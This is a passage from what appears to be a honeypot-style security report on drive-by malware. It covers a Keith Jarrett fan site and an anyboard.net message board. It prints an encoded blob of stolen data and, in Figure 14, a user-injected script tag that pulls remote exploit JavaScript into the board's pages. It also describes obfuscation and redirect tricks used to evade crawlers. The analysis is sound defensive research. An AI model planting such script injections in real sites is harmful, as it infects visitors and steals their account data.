 ```
 Vk9R1pBROEEAhNJd0ZsfeZDubqqduAnXQt7EAg2+nIiXHFPRUdM6AlnEUwTQGBS41Hm4PFjrnoaB
 nAgDTv8QChRPUVCTAfrCwcGXhxXZlLpJ+D85GmHIFINMDcbM+52O1I7AFlGXOIMRw1WE1JxV
 udN+u7hd/0gS057Jwp28GUsVzoGSk1P6gwGEEIcUHwMqRDj9/Br7kMeWjA8ETfsQChRPUVCTAf8F
 gcKQQFWYlmGQern+nbhIEULdyROar1xIFA9S0twT+EKBRVbWlx6R/BG/+/rcM4ZMQFtIBo29nc1XD
 dDDh0N4QcHGlsbZ39G6kX166F3/SBOa3cmFTbwZjFQKEpCRAm9TQYXVx1bfHfvRvrl4nuqLF0HZy
 UOWud7JlE3UkxHQ65aTRZXEFp7TNdP9uridexmVBx3Jx5X4GskTlRQXkoL8QcNGlxcUHFS5kDH9up
 662k7TnsnCnbwZSxXOgRTU1yrSVMHRwxZHnSzEqzX3VzaKlACeCUECMkcdgVqBRcVHaxVUk0RT
 QIjA9pjk4GFZc0VLhMXQ
 --swefasvqdvwxff—
```
Figure 13 - Data sent by malware

The server involved in collecting the data was different than the server hosting the actual exploit code. The data collection server was located in the Republic of Moldavia, but registered to a person from Ukraine. The server hosting the exploit code was located in Russia and registered to a person from Germany and the site we initially accessed (www.keithjarrett.it) was located in Italy. We were unsuccessful when we ask the administrative contacts for the web server initially accessed to remove the malicious code. It is not at all clear if the original site itself as well as the servers hosting the exploit code were either servers controlled by people intending on distributing malware or had been compromised by attackers and modified to distribute it. However, this example illustrates the diverse nature of the components which are, willingly or unwillingly, involved in the scam to obtain (and eventually (ab)use) account data from users. Given such a distributed network of parties and systems, it would be difficult to identify and prosecute the criminals involved.

http://www.anyboard.net/suggest/posts/7933.html

Another malicious page we identified was located on a server that ran the message board Anyboard. We chose to include an in-depth analysis of this site, because it contains interesting aspects around the attack and the malware deployed. This site allows us to illustrate user submitted exploits, additional measures taken to avoid detection, and social engineering aspects that are involved in the scam.

The attack from anyboard.net demonstrates that the operator of the web site might not always be involved in the attack. The attack is possible because the deployed web application on the server follows bad practices enabling the server to be abused by its users. In this particular instance, the web application allows users to post messages to a threaded message board, but doesn’t seem to perform any input validation on the message posts. As a result, malicious users can post harmful JavaScript code. On post 7933, this seems to have happened where a user posted a script to include an exploit as shown in the HTML code snippet shown in Figure 14.

```
 <div class="MessageBody"><font size=-1 face="Verdana"><script src="https://www.impliedscripting.com/js/?cl=90716&q=interracial+cuckold"></script>
 <br ab><center><h1>Free
```

Figure 14 - User supplied exploit

The exploit itself follows the same pattern as the one found on the Keith Jarrett site. JavaScript is obfuscated, causes several redirects and then actually triggers the real exploit. The import method, however, is different than the one on the Keith Jarrett site though. Instead of using an iframe that imports the exploit, JavaScript code redirects the user to the page that contains the exploit via a client-side redirect as shown in Figure 15. If this code is combined with obfuscation, as this was the case here, it is difficult to follow the code in an automated fashion. Crawlers or low-interaction client honeypots need to be JavaScript-aware to do so. This technique illustrates the attempts to avoid detection and identification of the attack.
